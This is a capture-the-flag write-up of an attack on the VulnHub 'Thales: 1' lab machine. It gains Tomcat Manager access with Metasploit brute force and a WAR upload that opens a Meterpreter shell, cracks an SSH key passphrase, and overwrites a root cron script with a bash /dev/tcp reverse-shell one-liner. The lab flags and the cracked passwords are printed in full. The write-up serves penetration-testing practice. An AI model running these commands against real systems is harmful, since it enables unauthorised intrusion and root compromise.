










<p align="center">
  
</p>

---
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Thales: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>19.11.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Horizontal Privilege Escalation](#%EF%B8%8F--horizontal-privilege-escalation)
- [Vertical Privilege Escalation](#%EF%B8%8F--vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595.002 - Active Scanning: Vulnerability Scanning</b></td>
      <td>scanning the target system to detect vulnerable ports and running services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access </b></td>
      <td align="left"><b>T1110 - Brute Force </b></td>
      <td>a password brute force attack was performed to gain access to the Apache Tomcat Manager App interface</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>A malicious Java payload was uploaded via the Manager App interface to obtain a Meterpreter session</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1552.004 - Unsecured Credentials: Private Keys</b></td>
      <td>Extracting password from encrypted private .ssh key (id_rsa)</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1078.003 - Valid Accounts: Local Accounts</b></td>
      <td>Using the password obtained from the private .ssh key</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1053.003 - Scheduled Task/Job: Cron</b></td>
      <td>Executing the backup.sh script via cron every five minutes</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>User Flag</th>
    <td><code>flag{a837c0b5d2a8a07225fd9905f5a0e9c4}</code></td>
  </tr>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{3a1c85bebf8833b0ecae900fb8598b17}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 
</p>

> Let's display the IP address of the target system via `arp` subnet scan:

```bash

sudo arp-scan --localnet --interface=eth0 --ouifile=/usr/local/share/arp-scan/ieee-oui.txt

```
<p align="center">
 
</p>

> IP address of the machine being attacked - `192.168.50.48`

## 🕵️  Reconnaissance

> We begin by scanning the target system for open ports and running services using the network scanner `nmap`. For convenience, we'll perform the scan in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.48 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -A -n -vv 192.168.50.48 -oN scan_results

```bash

22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8c:19:ab:91:72:a5:71:d8:6d:75:1d:8f:65:df:e1:32 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCfhrnhBc/uqyAEoIpZXXzNBwBJA/Wi2j61/61BwFP3QvojMbw+1BqJltAdTY4JpMWyXhnOltN+QalT/FG1Y5bg6okbEcjDtGwSQvpc5RiMqjAYoqZc5zu7rWuAs9AwIGOVIzstkFKoQdmjws+v+PCM0YWrgKlzsXSkSMfLdNHnXuQwBVTi9w6cfu/1iGE8EHpFWoH6a3qHAdHolghiD6lbcSPXderGWl4iSHUKA8eZw6wgib/7szWeUS9D1HT6yXqcWCRllmOF5xrYZEeMhGnthiF6b0XK0MLhyOvTGQnSiUnlP7fVu/S7BCA1w0+BRnDgqkq+yYdOVbog4Ur5/3F/
|   256 90:6e:a0:ee:d5:29:6c:b9:7b:05:db:c6:82:5c:19:bf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ8pN5Pqcders45dMkGSazQgvNIQqb3E6GaolylwOxV+SThfdp2lfhuHb7N31Oh68lahnOzx012SytFcf0UWdlE=
|   256 54:4d:7b:e8:f9:7f:21:34:3e:ed:0f:d9:fe:93:bf:00 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKx8dUcu/F23ROVr0drQvV7q7BaibcIwBtrDXa9rNcKY

8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.52
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.52

```

> From the scan results we see two open ports:

- `22 (ssh)` - used for ssh connections;
- `8080 (http)` - the Apache Tomcat web server is running;

> Open the resource running on port `8080` in the browser:

<p align="center">
 
</p>

> We see the default page of the `Apache Tomcat` web server.

![IMPORTANT]
`Apache Tomcat` is an application and web server designed to run web applications written in `Java`.
It implements the `Java Servlet`, `JavaServer Pages (JSP)` and, since later versions, `WebSocket` specifications.
`Tomcat` is used to process dynamic web content, where business logic is implemented as `Servlet classes` and `JSP pages`.

> We need to access the web application management interface (`Manager App`) - this way we can later implement `Initial Access` to the system itself.
> However, to access this interface, we need **valid credentials**:

<p align="center">
 
</p>

<p align="center">
 
</p>

> Brute force dictionaries for this form can be easily found online. For the report, I'll use a convenient module in `metasploit` - `auxiliary/scanner/http/tomcat_mgr_login`:

```bash

msfconsole -q
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 192.168.50.48
rhosts => 192.168.50.48

msf auxiliary(scanner/http/tomcat_mgr_login) > run

```

<p align="center">
 
</p>

> Great. We now have a valid account for logging into the web application management interface: `tomcat:role1`. 

---
## 🔓 Initial Access

> To gain `Initial Access` to the server, we can use `msfvenom` to generate a malicious `.war` archive (`Web Application Archive`) and deploy it to `Tomcat` as an application:

<p align="center">
 
</p>

<p align="center">
 
</p>

> But also for convenience, without leaving `metasploit`, I will use the module to get a session on the server - `exploit/multi/http/tomcat_mgr_upload`:

```bash

msf auxiliary(scanner/http/tomcat_mgr_login) > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > set rhosts 192.168.50.48
rhosts => 192.168.50.48

msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080

msf exploit(multi/http/tomcat_mgr_upload) > set HttpPassword role1
HttpPassword => role1

msf exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat

msf exploit(multi/http/tomcat_mgr_upload) > run
[*] Started reverse TCP handler on 192.168.50.127:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying HV1sghzpVm9caAiiQA...
[*] Executing HV1sghzpVm9caAiiQA...
[*] Undeploying HV1sghzpVm9caAiiQA ...
[*] Sending stage (58073 bytes) to 192.168.50.48
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (192.168.50.127:4444 -> 192.168.50.48:34392) at 2025-11-19 15:06:54 -0500

meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)

```

> Upgrade our shell to `pty` via `python3`:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

> User `tomcat` does not have permission to read the first flag of `user.txt`.

```bash

tomcat@miletus:/home/thales$ ls -lah
ls -lah
total 52K
drwxr-xr-x 6 thales thales 4.0K Oct 14  2021 .
drwxr-xr-x 3 root   root   4.0K Aug 15  2021 ..
-rw------- 1 thales thales  457 Oct 14  2021 .bash_history
-rw-r--r-- 1 thales thales  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 thales thales 3.7K Apr  4  2018 .bashrc
drwx------ 2 thales thales 4.0K Aug 15  2021 .cache
drwx------ 3 thales thales 4.0K Aug 15  2021 .gnupg
drwxrwxr-x 3 thales thales 4.0K Aug 15  2021 .local
-rw-r--r-- 1 root   root    107 Oct 14  2021 notes.txt
-rw-r--r-- 1 thales thales  807 Apr  4  2018 .profile
-rw-r--r-- 1 root   root     66 Aug 15  2021 .selected_editor
drwxrwxrwx 2 thales thales 4.0K Aug 16  2021 .ssh
-rw-r--r-- 1 thales thales    0 Oct 14  2021 .sudo_as_admin_successful
-rw------- 1 thales thales   33 Aug 15  2021 user.txt

```

> You need to `Escalate Privileges` to the `thales` user

---
## 🔑↔️  Horizontal Privilege Escalation

> In the home directory of the user `thales` there is an `.ssh` directory, and in it there are **public** and **private** `ssh keys`:

```bash

tomcat@miletus:/home/thales$ cd .ssh
cd .ssh
tomcat@miletus:/home/thales/.ssh$ ls -lah
ls -lah
total 16K
drwxrwxrwx 2 thales thales 4.0K Aug 16  2021 .
drwxr-xr-x 6 thales thales 4.0K Oct 14  2021 ..
-rw-r--r-- 1 thales thales 1.8K Aug 16  2021 id_rsa
-rw-r--r-- 1 thales thales  396 Aug 16  2021 id_rsa.pub
tomcat@miletus:/home/thales/.ssh$

```

> We set up a simple `python server` on the victim's system and transfer the `id_rsa` file to our machine for analysis:

```bash

tomcat@miletus:/home/thales$ python3 -m http.server 1111

python3 -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
192.168.50.127 - - [19/Nov/2025 20:11:23] "GET /.ssh/id_rsa HTTP/1.1" 200 -

```
```bash

file id_rsa

id_rsa: PEM RSA private key

```

> This is an encrypted `RSA private key` in `OpenSSL` format. It is protected by `symmetric encryption using a password`.
> To decrypt it, you need to guess the password used to protect it. We'll use a `Brute Force` attack using the `john` tool:

```bash

ssh2john id_rsa > id_rsa_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt

```

<p align="center">
 
</p>

> The resulting password - `vodka06`, which is used to protect the `private ssh key`.

> We'll use this password to reconnect to the `thales` user within the system:

```bash

tomcat@miletus:/home/thales$ su thales
su thales
Password:

thales@miletus:~$ id
id
uid=1000(thales) gid=1000(thales) groups=1000(thales),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

thales@miletus:~$

```

> We take the `user flag` from the user's home directory: `/home/thales`:

```bash

thales@miletus:~$ cat user.txt
cat user.txt

a837c0b5d2a8a07225fd9905f5a0e9c4

thales@miletus:~$

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>a837c0b5d2a8a07225fd9905f5a0e9c4</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️  Vertical Privilege Escalation

> Let's display the contents of the file `notes.txt` in the home directory of the user `thales`:

```bash

thales@miletus:~$ cat notes.txt
cat notes.txt

I prepared a backup script for you. The script is in this directory "/usr/local/bin/backup.sh". Good Luck.

thales@miletus:~$

```

> Let's check the configured `access rights` to the executable file `backup.sh`:

```bash

thales@miletus:~$ ls -lah /usr/local/bin/backup.sh
ls -lah /usr/local/bin/backup.sh

-rwxrwxrwx 1 root root 612 Oct 14  2021 /usr/local/bin/backup.sh

thales@miletus:~$

```

> The permissions for the `other` user category are set to `rwx`, meaning any user who isn't the owner of this file and isn't part of the corresponding
> group in the system has the right to `edit/overwrite` it.

> Let's figure out how exactly the script is launched. I'll use the `pspy` tool to analyze system processes in real time:

<p align="center">
 
</p>

> As you can see, our script, `/usr/local/bin/backup.sh`, runs every five minutes, and the `root` user initializes this process.

> We have all the necessary ingredients for a `full system compromise` – gaining `root` access:

- 1) The `backup.sh` script has excessive permissions for all other users.
- 2) The script runs on the system every five minutes as the `root` user.

> To gain root access, rewrite the `backup.sh` script with the following one-liner:

```bash

echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.50.127/4141 0>&1' > /usr/local/bin/backup.sh

```

> We launch the `netcat` listener on port `4141` and wait five minutes:

```bash

nc -lvnp 4141
Listening on 0.0.0.0 4141
Connection received on 192.168.50.48 55960
bash: cannot set terminal process group (20663): Inappropriate ioctl for device
bash: no job control in this shell

root@miletus:~# id
id
uid=0(root) gid=0(root) groups=0(root)

```
> Get the `root flag` from the home directory  - `/root`

```bash

root@miletus:~# cd ~
cd ~
root@miletus:~# cat root.txt
cat root.txt

3a1c85bebf8833b0ecae900fb8598b17

root@miletus:~#

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>3a1c85bebf8833b0ecae900fb8598b17</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> ![NOTE]
During the execution of this attack, the target system `Thales:1` became `Fully Compromised`.

`Initial scanning and reconnaissance` revealed an `Apache Tomcat web server` running on port `8080`, which was vulnerable to a `bruteforce` attack. Exploiting this weakness allowed
access to the Tomcat `Web Application Manager interface`, where a malicious `.war` payload was uploaded. This resulted in obtaining `Initial Access` to the server under the `tomcat` user account.

At the next stage, a technique of `Horizontal Privilege Escalation` was performed by compromising the user `thales` through their encrypted private key `id_rsa`, which was protected with a `passphrase`.
Using the `john` tool and a `bruteforce` attack, the passphrase was successfully recovered, allowing decryption of the private key and subsequent access to the `thales` account.

Further internal `Enumeration` uncovered an executable script `backup.sh` located in `/usr/local/bin/`, which had overly permissive write rights for the `other access category`. The script was executed
every five minutes by a scheduled cron job running with `root privileges`. By overwriting the contents of `backup.sh` and waiting for the next cron execution cycle, full system compromise was achieved
with `root‑level access`.
